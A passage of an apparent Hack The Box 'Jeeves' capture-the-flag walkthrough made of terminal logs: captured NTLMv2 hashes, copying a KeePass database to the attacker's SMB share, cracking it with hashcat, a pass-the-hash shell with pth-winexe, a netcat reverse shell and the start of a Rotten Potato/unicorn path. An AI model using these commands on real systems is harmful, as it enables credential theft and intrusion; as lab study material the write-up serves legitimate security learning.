[*] kohsuke::JEEVES:4141414141414141:959831cc8a873f2b8b1f125f5c2df202:0101000000000000800549e043f6d301de55c5d1a7a842b2000000000100100075004d00630061005600660074005a000200100042005a0063004500740051006b004b000300100075004d00630061005600660074005a000400100042005a0063004500740051006b004b0007000800800549e043f6d30106000400020000000800300030000000000000000000000000300000965279eafe9d9894e672c12baa46c04cbe69f504d0533745defd036a8ef6e58e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003600000000000000000000000000
[*] Disconnecting Share(1:MYSHARE)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User kohsuke\JEEVES authenticated successfully
[*] kohsuke::JEEVES:4141414141414141:cff1b59aff3c95ab02fcc69c6794a047:010100000000000000319ceb43f6d301f6a32fb5979542d7000000000100100075004d00630061005600660074005a000200100042005a0063004500740051006b004b000300100075004d00630061005600660074005a000400100042005a0063004500740051006b004b000700080000319ceb43f6d30106000400020000000800300030000000000000000000000000300000965279eafe9d9894e672c12baa46c04cbe69f504d0533745defd036a8ef6e58e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003600000000000000000000000000
[*] Disconnecting Share(1:MYSHARE)

[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User kohsuke\JEEVES authenticated successfully
[*] kohsuke::JEEVES:4141414141414141:7edfb6e96d8421b89b3c18dfe63dbc90:010100000000000000b5730344f6d30142fd1093e29f1726000000000100100075004d00630061005600660074005a000200100042005a0063004500740051006b004b000300100075004d00630061005600660074005a000400100042005a0063004500740051006b004b000700080000b5730344f6d30106000400020000000800300030000000000000000000000000300000965279eafe9d9894e672c12baa46c04cbe69f504d0533745defd036a8ef6e58e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003600000000000000000000000000
[*] Disconnecting Share(1:MYSHARE)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User kohsuke\JEEVES authenticated successfully
[*] kohsuke::JEEVES:4141414141414141:70b51fdddc3dbc9f982fbf9808ed3cbd:010100000000000080c1bc1444f6d301c679238b08e27912000000000100100075004d00630061005600660074005a000200100042005a0063004500740051006b004b000300100075004d00630061005600660074005a000400100042005a0063004500740051006b004b000700080080c1bc1444f6d30106000400020000000800300030000000000000000000000000300000965279eafe9d9894e672c12baa46c04cbe69f504d0533745defd036a8ef6e58e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003600000000000000000000000000
[*] Disconnecting Share(1:MYSHARE)
```

```sh
PS C:\Users\kohsuke\Documents> New-PSDrive -Name "share1" -PSProvider "FileSystem" -Root "\\10.10.14.16\myshare"

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
share1                                 FileSystem    \\10.10.14.16\myshare


PS C:\Users\kohsuke\Documents>
```

```sh
PS C:\Users\kohsuke\Documents> cd share1:
PS share1:\> cp C:\Users\kohsuke\Documents\CEH.kdbx .
```

```sh
root@kali:~/jeeves/www# keepass2john CEH.kdbx
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
root@kali:~/jeeves/www#
```

```sh
root@kali:~/jeeves/www# cat keepass2.txt
$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
root@kali:~/jeeves/www#
```



```sh
root@kali:~/jeeves/www# hashcat -m 13400 keepass2.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v4.0.1) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i5-6360U CPU @ 2.00GHz, 512/1497 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Password length minimum: 0
Password length maximum: 256

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
Watchdog: Temperature retain trigger disabled.

* Device #1: build_opts '-I /usr/share/hashcat/OpenCL -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=13400 -D _unroll'
* Device #1: Kernel m13400.1971e6b3.kernel not found in cache! Building may take a while...
* Device #1: Kernel amp_a0.32fbfc88.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344393
* Bytes.....: 139921512
* Keyspace..: 14344386
* Runtime...: 4 secs

- Device #1: autotuned kernel-accel to 160
- Device #1: autotuned kernel-loops to 102
[s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit => [s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit => r

Resumed
Resumed

[s]tatus [p]ause [r]esume [b]ypass [c]heckpoint [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Type........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fc...47db48
Time.Started.....: Mon May 28 01:40:21 2018 (43 secs)
Time.Estimated...: Mon May 28 05:09:44 2018 (3 hours, 28 mins)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:     1142 H/s (10.17ms)
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 48640/14344386 (0.34%)
Rejected.........: 0/48640 (0.00%)
Restore.Point....: 48640/14344386 (0.34%)
Candidates.#1....: calabar -> robert25
HWMon.Dev.#1.....: N/A

$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48:moonshine1

Session..........: hashcat
Status...........: Cracked
Hash.Type........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fc...47db48
Time.Started.....: Mon May 28 01:40:21 2018 (48 secs)
Time.Estimated...: Mon May 28 01:41:09 2018 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:     1146 H/s (8.74ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 55040/14344386 (0.38%)
Rejected.........: 0/55040 (0.00%)
Restore.Point....: 54400/14344386 (0.38%)
Candidates.#1....: 112378 -> marikit
HWMon.Dev.#1.....: N/A

Started: Mon May 28 01:39:59 2018
Stopped: Mon May 28 01:41:10 2018
root@kali:~/jeeves/www#
```

```sh
root@kali:~/jeeves/www# apt install keepass2
Reading package lists... Done
Building dependency tree
Reading state information... Done
Certificate added: C=JP, O="Japan Certification Services, Inc.", CN=SecureSign RootCA11
Certificate added: C=US, O=SecureTrust Corporation, CN=SecureTrust CA
Certificate added: C=US, O=SecureTrust Corporation, CN=Secure Global CA
Certificate added: C=JP, O="SECOM Trust Systems CO.,LTD.", OU=Security Communication EV RootCA1
Certificate added: C=JP, O="SECOM Trust Systems CO.,LTD.", OU=Security Communication RootCA2
Certificate added: C=JP, O=SECOM Trust.net, OU=Security Communication RootCA1
Certificate added: C=FI, O=Sonera, CN=Sonera Class2 CA
Certificate added: C=NL, O=Staat der Nederlanden, CN=Staat der Nederlanden EV Root CA
Certificate added: C=NL, O=Staat der Nederlanden, CN=Staat der Nederlanden Root CA - G2
Certificate added: C=NL, O=Staat der Nederlanden, CN=Staat der Nederlanden Root CA - G3
Certificate added: C=US, O="Starfield Technologies, Inc.", OU=Starfield Class 2 Certification Authority
Certificate added: C=US, S=Arizona, L=Scottsdale, O="Starfield Technologies, Inc.", CN=Starfield Root Certificate Authority - G2
Certificate added: C=US, S=Arizona, L=Scottsdale, O="Starfield Technologies, Inc.", CN=Starfield Services Root Certificate Authority - G2
Certificate added: C=CH, O=SwissSign AG, CN=SwissSign Gold CA - G2
Certificate added: C=CH, O=SwissSign AG, CN=SwissSign Silver CA - G2
Certificate added: C=ch, O=Swisscom, OU=Digital Certificate Services, CN=Swisscom Root CA 1
Certificate added: C=ch, O=Swisscom, OU=Digital Certificate Services, CN=Swisscom Root CA 2
Certificate added: C=ch, O=Swisscom, OU=Digital Certificate Services, CN=Swisscom Root EV CA 2
Certificate added: C=DE, O=T-Systems Enterprise Services GmbH, OU=T-Systems Trust Center, CN=T-TeleSec GlobalRoot Class 2
Certificate added: C=DE, O=T-Systems Enterprise Services GmbH, OU=T-Systems Trust Center, CN=T-TeleSec GlobalRoot Class 3
Certificate added: C=TR, L=Gebze - Kocaeli, O=Turkiye Bilimsel ve Teknolojik Arastirma Kurumu - TUBITAK, OU=Kamu Sertifikasyon Merkezi - Kamu SM, CN=TUBITAK Kamu SM SSL Kok Sertifikasi - Surum 1
Certificate added: CN=TÜRKTRUST Elektronik Sertifika Hizmet Sağlayıcısı, C=TR, L=Ankara, O=TÜRKTRUST Bilgi İletişim ve Bilişim Güvenliği Hizmetleri A.Ş. (c) Aralık 2007
Certificate added: C=TW, O=TAIWAN-CA, OU=Root CA, CN=TWCA Global Root CA
Certificate added: C=TW, O=TAIWAN-CA, OU=Root CA, CN=TWCA Root Certification Authority
Certificate added: C=TW, O=Government Root Certification Authority
Certificate added: O=TeliaSonera, CN=TeliaSonera Root CA v1
Certificate added: C=GB, O=Trustis Limited, OU=Trustis FPS Root CA
Certificate added: C=TR, L=Gebze - Kocaeli, O=Türkiye Bilimsel ve Teknolojik Araştırma Kurumu - TÜBİTAK, OU=Ulusal Elektronik ve Kriptoloji Araştırma Enstitüsü - UEKAE, OU=Kamu Sertifikasyon Merkezi, CN=TÜBİTAK UEKAE Kök Sertifika Hizmet Sağlayıcısı - Sürüm 3
Certificate added: C=TR, L=Ankara, O=TÜRKTRUST Bilgi İletişim ve Bilişim Güvenliği Hizmetleri A.Ş., CN=TÜRKTRUST Elektronik Sertifika Hizmet Sağlayıcısı H5
Certificate added: C=US, S=New Jersey, L=Jersey City, O=The USERTRUST Network, CN=USERTrust ECC Certification Authority
Certificate added: C=US, S=New Jersey, L=Jersey City, O=The USERTRUST Network, CN=USERTrust RSA Certification Authority
Certificate added: C=US, S=UT, L=Salt Lake City, O=The USERTRUST Network, OU=http://www.usertrust.com, CN=UTN-USERFirst-Hardware
Certificate added: C=US, O="VeriSign, Inc.", OU=VeriSign Trust Network, OU="(c) 2007 VeriSign, Inc. - For authorized use only", CN=VeriSign Class 3 Public Primary Certification Authority - G4
Certificate added: C=US, O="VeriSign, Inc.", OU=VeriSign Trust Network, OU="(c) 2006 VeriSign, Inc. - For authorized use only", CN=VeriSign Class 3 Public Primary Certification Authority - G5
Certificate added: C=US, O="VeriSign, Inc.", OU=VeriSign Trust Network, OU="(c) 2008 VeriSign, Inc. - For authorized use only", CN=VeriSign Universal Root Certification Authority
Certificate added: C=US, O="VeriSign, Inc.", OU=VeriSign Trust Network, OU="(c) 1999 VeriSign, Inc. - For authorized use only", CN=VeriSign Class 3 Public Primary Certification Authority - G3
Certificate added: C=US, O=VISA, OU=Visa International Service Association, CN=Visa eCommerce Root
Certificate added: C=US, OU=www.xrampsecurity.com, O=XRamp Security Services Inc, CN=XRamp Global Certification Authority
Certificate added: C=RO, O=certSIGN, OU=certSIGN ROOT CA
Certificate added: C=TW, O="Chunghwa Telecom Co., Ltd.", OU=ePKI Root Certification Authority
Certificate added: C=US, O="thawte, Inc.", OU=Certification Services Division, OU="(c) 2006 thawte, Inc. - For authorized use only", CN=thawte Primary Root CA
Certificate added: C=US, O="thawte, Inc.", OU="(c) 2007 thawte, Inc. - For authorized use only", CN=thawte Primary Root CA - G2
Certificate added: C=US, O="thawte, Inc.", OU=Certification Services Division, OU="(c) 2008 thawte, Inc. - For authorized use only", CN=thawte Primary Root CA - G3
148 new root certificates were added to your trust store.
Import process completed.
Done
done.
root@kali:~/jeeves/www#
```











```sh
root@kali:~/jeeves# cat pass
administrator:S1TjAtJHKsugh9oC4VZl
NTLM Hash:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
root@kali:~/jeeves#
```

###### Pass The Hash Attack

```sh
root@kali:~/jeeves# winexe -h
winexe version 1.1
This program may be freely redistributed under the terms of the GNU GPLv3
Usage: winexe [OPTION]... //HOST COMMAND
Options:
  -h, --help                                  Display help message
  -V, --version                               Display version number
  -U, --user=[DOMAIN/]USERNAME[%PASSWORD]     Set the network username
  -A, --authentication-file=FILE              Get the credentials from a file
  -N, --no-pass                               Do not ask for a password
  -k, --kerberos=STRING                       Use Kerberos, -k [yes|no]
  -d, --debuglevel=DEBUGLEVEL                 Set debug level
      --uninstall                             Uninstall winexe service after remote execution
      --reinstall                             Reinstall winexe service before remote execution
      --system                                Use SYSTEM account
      --profile                               Load user profile
      --convert                               Try to convert characters between local and remote code-pages
      --runas=[DOMAIN\]USERNAME%PASSWORD      Run as the given user (BEWARE: this password is sent in cleartext over the network!)
      --runas-file=FILE                       Run as user options defined in a file
      --interactive=0|1                       Desktop interaction: 0 - disallow, 1 - allow. If allow, also use the --system switch (Windows requirement). Vista does not support this option.
      --ostype=0|1|2                          OS type: 0 - 32-bit, 1 - 64-bit, 2 - winexe will decide. Determines which version (32-bit or 64-bit) of service will be installed.
root@kali:~/jeeves#
root@kali:~/jeeves# winexe -U jenkins/administrator //10.10.10.63 cmd.exe
Enter password:
ERROR: Failed to open connection - NT_STATUS_LOGON_FAILURE
root@kali:~/jeeves#
```

```sh
root@kali:~/jeeves# pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe
Enter password:
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

C:\Windows\system32>cd ..\..\
cd ..\..\

C:\>
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\

11/05/2017  10:15 PM    <DIR>          inetpub
11/03/2017  10:33 PM    <DIR>          Jenkins
10/30/2015  03:24 AM    <DIR>          PerfLogs
10/26/2017  03:33 AM    <DIR>          Program Files
11/03/2017  10:26 PM    <DIR>          Program Files (x86)
11/08/2017  06:22 PM    <DIR>          Users
12/24/2017  03:53 AM    <DIR>          Windows
11/08/2017  10:05 AM    <DIR>          Windows10Upgrade
               0 File(s)              0 bytes
               8 Dir(s)   7,503,519,744 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users

11/08/2017  06:22 PM    <DIR>          .
11/08/2017  06:22 PM    <DIR>          ..
11/03/2017  11:07 PM    <DIR>          Administrator
11/05/2017  10:17 PM    <DIR>          DefaultAppPool
11/03/2017  11:19 PM    <DIR>          kohsuke
10/25/2017  04:46 PM    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   7,503,519,744 bytes free

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,503,519,744 bytes free

C:\Users\Administrator\Desktop>

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
C:\Users\Administrator\Desktop>
```

```sh
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,503,368,192 bytes free

C:\Users\Administrator\Desktop>
```

```sh
C:\Users\Administrator\Desktop>powershell Get-Content -Path "hm.txt" -Stream "root.txt"
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
afbc5bd4b615a60648cec41c6ac92530

C:\Users\Administrator\Desktop>
```

###### Alternate Method

- [`Abusing Token Privileges For Windows Local Privilege Escalation`](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
- [`Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM`](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [`Rotten Potato without MSF`](https://decoder.cloud/2017/12/23/the-lonely-potato/)

```sh
root@kali:~/jeeves/www# nc -nlvp 8090
listening on [any] 8090 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.63] 49678
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins>whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins>
```

```sh
PS C:\Users\kohsuke\Documents> New-PSDrive -Name "share1" -PSProvider "FileSystem" -Root "\\10.10.14.16\myshare"

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
share1                                 FileSystem    \\10.10.14.16\myshare


PS C:\Users\kohsuke\Documents> cd share1:
```

```sh
PS share1:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
PS share1:\>
```

```sh
root@kali:~/jeeves/www# git clone https://github.com/trustedsec/unicorn.git
Cloning into 'unicorn'...
remote: Counting objects: 340, done.
remote: Total 340 (delta 0), reused 0 (delta 0), pack-reused 340
Receiving objects: 100% (340/340), 163.94 KiB | 317.00 KiB/s, done.
Resolving deltas: 100% (215/215), done.
root@kali:~/jeeves/www# cd unicorn/
root@kali:~/jeeves/www/unicorn# ls
CHANGELOG.txt  CREDITS.txt  LICENSE.txt  README.md  unicorn.py
root@kali:~/jeeves/www/unicorn# python unicorn.py

                                                         ,/
                                                        //
                                                      ,//
                                          ___   /|   |//
